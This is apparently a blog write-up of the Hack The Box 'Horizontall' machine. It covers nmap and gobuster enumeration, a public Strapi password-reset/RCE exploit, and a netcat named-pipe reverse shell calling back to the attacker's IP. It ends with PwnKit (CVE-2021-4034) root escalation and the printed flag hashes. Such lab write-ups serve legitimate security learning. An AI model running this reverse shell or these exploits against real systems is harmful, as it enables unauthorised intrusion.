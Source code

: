 ```yaml
---
layout: post
title: CTF Horizontall
date:   2022-01-23 13:42:51 -0600
categories: CTF
tags: Linux
---
```

# Description

Horizontal from HTB.

# nmap

```zsh
nmap -sV -p- 10.10.11.105
```
```zsh
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
```
# Port 80
It's forbiden, I have to add the dns:
```zsh
/etc/hosts
10.10.11.105 horizontall.htb
```
# Javascript

The file /js/app.c68eb462.js is obfuscated I have to use a tool to read it.
https://lelinhtinh.github.io/de4js/
I found the link http://api-prod.horizontall.htb/reviews
I have to add it to my /etc/hosts file.

# gobuster
```zsh
gobuster dir -u http://api-prod.horizontall.htb/ -w Documents/wordlist/directory-list-2.3-small.txt -t 150 --wildcard switch | grep "(Status:"
```
```
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60] 
/reviews              (Status: 200) [Size: 507]
/Reviews              (Status: 200) [Size: 507]
/Users                (Status: 403) [Size: 60] 
/Admin                (Status: 200) [Size: 854]
/REVIEWS              (Status: 200) [Size: 507]
```
In admin we have the login page to `strapi`
In reviews we have a json file.
![](https://i.imgur.com/3a6Dm7G.png)

# exploit strapi

https://www.exploit-db.com/exploits/50239
```zsh
python3 50239.py http://api-prod.horizontall.htb
```
The shell is broken but we have the creds.
```zsh
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
```
One week later...

Ok, the credentials are useless, I have to use the blind RCE,

On my computer:
```zsh
nc -nlvp 4242
```
Blind RCE:
```zsh
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.214 4242 >/tmp/f
```
And I'm in.
![](https://i.imgur.com/suIzZcm.png)
# Strapi shell

In `/home/developer/user.txt`:
e6cb8f6f0831dc40507c330d548ea384

# exploit 
## Upload
Look at this boy, it's so cool
```zsh
dragon *
```
![](https://i.imgur.com/EyhFv09.png)
## Make
This is a new exploit, released 2 days ago.
https://github.com/berdav/CVE-2021-4034
![](https://i.imgur.com/DJMB50p.png)

I'm using dragon to drag and drop my files.
![](https://i.imgur.com/2QGoFTy.png)
```zsh
cat /root/root.txt
```
373da3c143300dec7f9357b24c8b202a

I really feel like a god xD Every computer are vulnerable, you have to update your system, When I'v started the box the exploit was not availible.









